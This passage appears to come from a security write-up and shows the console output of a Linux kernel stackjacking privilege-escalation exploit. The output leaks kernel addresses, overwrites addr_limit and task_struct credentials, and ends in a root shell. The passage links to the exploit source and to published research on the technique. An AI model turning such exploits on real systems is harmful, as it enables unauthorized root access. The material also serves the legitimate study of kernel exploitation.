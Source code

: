 ```c
[*] leaking kernel stack address......

[+] Leaked stack address: ffff880079361f18
[+] kernel stack base address: 0xffff880079360000
[*] allocating a handle.....

[+] Acquired handle: 24c7478d5e0afd1c
[*] Leaking buf's address......

[+] buf = 0xffff880077c68000
[+] seed = db38cf8d29cc7d1c
[+] target(addr_limit) = ffff880079360020
[+] new handle = 24c7478d50fa7d3c
[*] overwriting buf as addr_limit's address......
[*] overwriting addr_limit as 0xffffffffffffffff......
[*] Creating a pipe to read task_struct's data.....
[+] task_struct: 0xffff8800788197f0
[*] Seeking task_struct->real_cred......
[+] uid: 1000
[+] task_struct->real_cred's address: 0xffff880078819c88
[+] task_struct->cred's address): 0xffff880078819c90
fucking the world! finally got it!

[*] Starting overwriting real_cred and cred....
[+] task_struct->real_cred->uid: 0
[*] overwriting task_struct->cred to the same address as real_cred
[+] task_struct->cred = 0xffff880077ca2fc0
[+] getuid() = 0
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(w0lfzhang)
```
[exp及例子源码](https://github.com/w0lfzhang/kernel_exploit/tree/master/stackjacking)

## Links
[Stackjacking Your Way to grsec/PaX Bypass](https://jon.oberheide.org/blog/2011/04/20/stackjacking-your-way-to-grsec-pax-bypass/)
[LinuxカーネルモジュールでStackjackingによるSMEP+SMAP+KADR回避をやってみる](http://inaz2.hatenablog.com/entry/2015/03/27/021422)